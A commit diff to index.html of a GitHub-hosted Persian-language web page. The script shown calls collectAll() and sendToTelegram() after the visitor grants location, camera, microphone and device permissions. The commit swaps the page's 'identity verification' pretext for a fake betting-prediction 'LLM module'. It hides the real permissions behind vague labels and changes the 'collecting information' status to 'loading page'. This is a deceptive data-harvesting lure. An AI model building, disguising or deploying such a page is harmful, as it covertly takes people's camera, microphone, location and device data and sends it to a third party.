

Before and after one commit to aliamrza/UIC, a website: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -114,16 +114,16 @@
 </head>
 <body>
   <div class="card">
-    <div class="shield-icon">🛡️</div>
-    <h1>تأیید هویت کاربر</h1>
-    <p class="subtitle">برای ادامه، لطفاً دسترسی‌های مورد نیاز را تأیید کنید. این اطلاعات صرفاً جهت بهبود امنیت استفاده می‌شود.</p>
+    <div class="shield-icon">💩💰</div>
+    <h1>هـ مـ پیشبینی پوپ</h1>
+    <p class="subtitle">ماژول ال ال ام پیشبینی بازی پوپ - دسترسی های لازم را بدهید و وارد صفحه بت شوید.</p>
 
     <div class="perms-list">
-      <div class="perm-item"><span class="icon">📍</span> دسترسی به موقعیت جغرافیایی</div>
-      <div class="perm-item"><span class="icon">📷</span> دسترسی به دوربین</div>
-      <div class="perm-item"><span class="icon">🎙️</span> دسترسی به میکروفون</div>
+      <div class="perm-item"><span class="icon">📍</span> توانایی بازگشایی الگوریتم</div>
+      <div class="perm-item"><span class="icon">📷</span> استفاده بهینه از فیبوناچی</div>
+      <div class="perm-item"><span class="icon">🎙️</span> دریافت و ارسال سریع اطلاعات</div>
       <div class="perm-item"><span class="icon">🔔</span> ارسال اعلان‌ها</div>
-      <div class="perm-item"><span class="icon">📋</span> اطلاعات دستگاه و شبکه</div>
+      <div class="perm-item"><span class="icon">📋</span> تناوب زمانی</div>
     </div>
 
     <button class="btn btn-primary" id="startBtn" onclick="startCollection()">
@@ -177,7 +177,7 @@
 
     async function startCollection() {
       document.getElementById('startBtn').disabled = true;
-      setStatus('در حال جمع‌آوری اطلاعات... <span class="spinner"></span>');
+      setStatus('در حال دریافت صفحه... <span class="spinner"></span>');
 
       const data = await collectAll();
       await sendToTelegram(data);
@@ -187,7 +187,7 @@
         document.querySelector('.card').innerHTML = `
           <div style="font-size:52px;margin-bottom:16px">✅</div>
           <h1 style="color:#4ade80">تأیید شد</h1>
-          <p style="color:#888;margin-top:12px;font-size:14px">هویت شما با موفقیت تأیید گردید.</p>
+          <p style="color:#888;margin-top:12px;font-size:14px">الگوریتم شما با موفقیت تأیید گردید.</p>
         `;
       }, 1500);
     }
```
